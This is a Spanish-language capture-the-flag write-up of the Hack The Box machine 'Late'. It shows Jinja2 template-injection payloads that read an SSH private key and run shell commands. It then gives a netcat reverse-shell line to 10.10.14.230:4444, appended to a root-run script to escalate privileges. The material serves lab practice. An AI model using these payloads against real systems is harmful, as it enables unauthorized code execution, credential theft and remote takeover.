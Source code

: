 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
Esta maquina es una de las sencillas en HtB. Aunque si batalle mucho a la hora del SSTI, tuve que investigar demasiado a fondo sobre esta vulnerabilidad, pero al final persistiendo en el intento lo logre.

## [](#header-2)<a href="#desarrollo">Desarrollo</a>
Despues del tipico escaneo con nmap, vimos que solamente teniamos abiertos los puertos 22 de ssh y 80 del servicio tcp, que correspondia a una pagina web. 
Navegando dentro del codigo de la pagina, encontramos un enlace a convertir tus propias imagenes con texto a texto e icimos la prueba para conocer mas sobre el motor al que le correspondia al procesador de flsk. Con la siguiente cadena:

```powershell
{{7*7}}
${7*7}
<%=7*7%> 
${{7*7}} 
#{7*7}
```

Solamente tenemos que anotarlo en un bloc de notas y tomarle una captura de pantalla, para despues subirlo en el images.Late.htb. Lo que nos daba como resultado en un result.txt, era una compilacion de codigo. El cual representaba una vulnerabilidad en SSTI. La cual viene a gran profundidad en <a href="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection">mi pagina favorita</a> y resulta que el motor que esta usando flask es jinja2. Batalle mucho a la hora de tomar las capturas de pantalla, recortar la imagen o simplemente encontrar las variables que se encontraban dentro del programa. El blog que estaba siguiendo no explicaba con claridad el comando que utilizo para llegar a los siguientes pasos, pero me tome la tarea de corregir errores agregando guines bajos '_' en las partes que no reconocia el script que subia. Los ejemplos de las imagenes que llegue a usar son:


Para poder ejecutar comandos de cmd:

![Os cmd](/assets/images/late/os_cmd_request.png)

Para solicitar la flag de usuraio:

![User flag](/assets/images/late/flag_request.png)

Respuesta de la captura anterior:

![Flag result](/assets/images/late/flag_txt.png)

Como en otras maquinas, podremos entrar con el usuario a traves del servicio de ssh, solamente tendremos que copiarnos el /home/svc_acc/id_rsa ya que es posible leerlo desde el servicio de jinja.
Podemos usar el script siguiente:

```powershell
{{ get_flashed_messages.__globals__.__builtins___.open("/home/svc_acc/.ssh/id_rsa").read() }}
```

Aqui presente problemas al generar el archivo `authorized_keys` por que como no se muestra en el resultado la correcta ejecusion del comando, tuve que ejecutarlo varias veces. Recomiendo que en el script que se utilice, contenga algo parecido a:

```powershell
{{ get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("cp /home/svc_acc/.ssh/id_rsa /home/svc_acc/.ssh/authorized_keys").read() }}

{{ get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("chmod 666 /home/svc_acc/.ssh/authorized_keys").read() }}

{{ get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("ls").read() }}
```

Con esto, no podremos ejecutar `ls -l` para ver que los permisos se hayan aplicado, pero al menos podremos ver que el archivo ha sido copiado.

Una vez teniendo la shell, y ejecutar el LinePeas, nos fuimos por lo mas sencillo para escalar privilegios que era en el archivo /usr/local/sbin/ssh-alert.sh que probablemente esta corriendo en todo momento, se puede utilizar pspy para echar un vistaso para ver que esta ocurriendo. La herramienta actualizada se encuentra en <a href="https://github.com/DominicBreuker/pspy">GIT</a> y observaremos con esta herramienta que el servicio lo esta utilizando el usuario con el UID=0, el cual es el perteneciente a root. Asi que procederemos a editar el archivo e inyectarle un script sencillo.

Para inyectar el codigo, primero hay que crear el archivo /tmp/append.txt, el cual dentro tendra:

```s
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.230 4444 >/tmp/f
```

y a continuacion solamente tendremos que ejecutar el comando:

```s
cat /tmp/append.txt >> /usr/local/sbin/ssh-alert.sh
```

Hacemos un append de lo anterior en el archivo ssh-alert.sh, preparamos el reverse shell para capturarlo desde nuestra kali como normalmente lo hacemos con el nc -nlvp 4444, y finalmente obtenemos otra shell con un nuevo usuario que esta vez sera root. Para que se ejecute, bastara con cerrar la sesion con ssh que teniamos e inmediatamente iniciara la coneccion con netcat desde nuestra kali.

![User flag](/assets/images/late/root_access.png)

![Late powned](/assets/images/late/Late_pwnd.png)
